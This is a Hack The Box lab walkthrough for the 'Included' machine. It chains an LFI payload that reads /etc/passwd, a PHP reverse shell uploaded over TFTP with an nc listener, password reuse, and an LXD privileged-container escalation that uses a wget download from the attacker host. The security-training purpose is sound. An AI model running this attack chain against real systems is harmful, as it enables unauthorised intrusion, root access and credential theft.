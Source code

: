 Hack The Box :: Starting Point :: Included :: Linux

# Enumeration

Let's begin by running an Nmap scan.
`nmap -A -v 10.10.10.55`

From the output we only see port 80 open. We can navigate to the website in a browser.

[web.webp](../_resources/2d2cee0ed096060618f6ba9dae8ef8ff.webp)

We can also run a UDP scan with Nmap.
`nmap -sU -v 10.10.10.55`

The UDP scan found port 69 to be open, which hosts the TFTP service. TFTP or "Trivial File Transfer Protocol", is similar to FTP but much simpler. It provides functionality only for uploading or downloading files from a server.

![udp.png](../_resources/4563a8bc4559750d45a947a73cb77ee1.png)

Let's see if we can connect to TFTP and upload a file.

	echo 1 > test.txt
	tftp 10.10.10.55
	put test.txt

We connect and confirm that we can upload files.

## LFI

The URL of the website is "[http://10.10.10.55/?file=index.php"](http://10.10.10.55/?file=index.php%22). It is worth checking if this is vulnerable to Local File Inclusion. We can test by changing the URL to the following:

`http://10.10.10.55/?file=../../../../etc/passwd`
This is successful, and passwd contents are returned by the server.
[passwd.webp](../_resources/57b952f3dabf837ef8107c6298ab1fd1.webp)

# Foothold

The LFI vulnerabilty can be combined with the TFTP service, in order to upload a PHP [reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) and execute it. This happens due to the inclusion of the PHP code by the vulnerable page, which results in it's execution. Change the IP address and the port by editing the following lines in the shell.

	$ip = '127.0.0.1';  // CHANGE THIS
	$port = 1234;       // CHANGE THIS

Then let's upload it using TFTP.

	tftp 10.10.10.55
	put rev.php

Next, we can use the LFI to access the reverse shell. The default TFTP root folder is `/var/lib/tftpboot`. Let's start a netcat listener before navigating to the shell.

`nc -lvp 1234`

Navigate to **http://10.10.10.55/?file=../../../../var/lib/tftpboot/rev.php** in order to get a shell.

![shell.png](../_resources/506734fe009bf36f68e59d1612df7a96.png)

# Lateral Movement

The low privilged `www-data` user isn't allowed to read user files.The password **Sheffield19** found in the previous can be used to switch to `mike`. First, let's spawn a TTY shell.

`python3 -c "import pty; pty.spawn('/bin/bash')"`
We can su to the user mike with the above password.
`su mike`

[mike.webp](../_resources/e9057d51b1cbaaf86ce9940bd87ae7d5.webp)

The user flag is located in `/home/mike`.

# Privilege Escalation

Running the **groups** command, it's found that user mike is in the LXD group. The LXD group is a high-privileged linux group, which can be used to escalate to root. First, clone the following repository and build an alpine image.

	git clone  https://github.com/saghul/lxd-alpine-builder.git
	cd lxd-alpine-builder
	./build-alpine

A tar.gz file should be created in the same folder. Upload it to the server by using python's `SimpleHttpServer`. First, run the following command locally in the same folder as the tar.gz.

`python -m SimpleHTTPServer 8888`
Then download the image to the server using `wget`:

	cd /tmp
	wget 10.10.14.3:8888/alpine-v3.10-x86_64-20191008_1227.tar.gz

We replace the tar name with the one that was built on our own system. Next, run the following commands to get root.

	lxc image import ./alpine-v3.10-x86_64-20191008_1227.tar.gz --alias rootimage
	lxc init rootimage ignite -c security.privileged=true

The commands above will import the image and create a privileged container with it. Next, the host file system is mounted to the `/mnt/root` folder on the container.

`lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true`

The command above will let us have access to the entire filesystem from within the container. The next set of commands start the container and drop us into a shell on it.

	lxc start ignite
	lxc exec ignite /bin/sh

Finally, we can navigate to `/mnt/root/root/` and read root.txt along with `login.sql`, which reveals credentials.